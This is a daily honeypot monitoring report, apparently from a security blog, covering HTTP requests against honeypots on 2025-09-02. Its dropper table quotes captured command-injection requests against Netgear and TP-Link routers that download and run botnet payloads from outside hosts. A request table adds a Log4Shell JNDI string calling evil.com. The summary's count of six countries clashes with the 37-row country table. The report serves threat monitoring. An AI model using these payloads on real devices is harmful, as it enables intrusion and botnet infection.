 ```yaml
---
title: "Report: 2025-09-02 "
date: 2025-09-02
desciption: "Report: 2025-09-02" 
tags: [repport, daily]
---
```



# Daily Report: 2025-09-02 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 6 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3952 requests were recorded during the day, originating from 6 different countries, with a peak of 924 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                     |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 120.28.169.1    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://120.28.169.1:57206/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 98.124.37.179   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1                                 |
| 103.130.82.18   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1                                        |
| 45.153.34.242   | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\x5C/91.224.92.22:58485/observatory/arm7;chmod+777+arm7;./arm7+jaws HTTP/1.1                                                      |
| 177.69.131.79   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1                                 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1                                 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                  |
|----:|----------------------:|:---------------------------------------------------------|
| 298 |                     1 | GET /?x=${jndi:ldap://${hostName}.evil.com/a} HTTP/1.1   |
| 299 |                     1 | GET /solr/admin/cores?wt=json&command={command} HTTP/1.1 |
| 301 |                     1 | \x00\x0E8\xE9\xCE{I\xAFO>\x7F\x00\x00\x00\x00\x00        |
| 683 |                     1 | \x00\x0E8\x986K\xC9\x95;}\xA0\x00\x00\x00\x00\x00        |
| 886 |                     1 | GET /trade/ HTTP/1.1                                     |
| 887 |                     1 | GET /bot/ HTTP/1.1                                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   924 | US                 |
|  1 |                   574 | GB                 |
|  2 |                   304 | JP                 |
|  3 |                   286 | DE                 |
|  4 |                   256 | IE                 |
|  5 |                   240 | AU                 |
|  6 |                   211 | BR                 |
|  7 |                   199 | IN                 |
|  8 |                   196 | FR                 |
|  9 |                   193 | SG                 |
| 10 |                   173 | SE                 |
| 11 |                   148 | KR                 |
| 12 |                   106 | CA                 |
| 13 |                    46 | SO                 |
| 14 |                    14 | BG                 |
| 15 |                    13 | NL                 |
| 16 |                    13 | SC                 |
| 17 |                     8 | CN                 |
| 18 |                     7 | IR                 |
| 19 |                     6 | ZA                 |
| 20 |                     4 | MN                 |
| 21 |                     4 | UA                 |
| 22 |                     3 | AT                 |
| 23 |                     3 | FI                 |
| 24 |                     3 | BE                 |
| 25 |                     3 | VN                 |
| 26 |                     2 | TR                 |
| 27 |                     2 | RU                 |
| 28 |                     2 | HK                 |
| 29 |                     2 | MX                 |
| 30 |                     1 | PK                 |
| 31 |                     1 | PH                 |
| 32 |                     1 | NG                 |
| 33 |                     1 | PE                 |
| 34 |                     1 | MC                 |
| 35 |                     1 | MD                 |
| 36 |                     1 | ID                 |
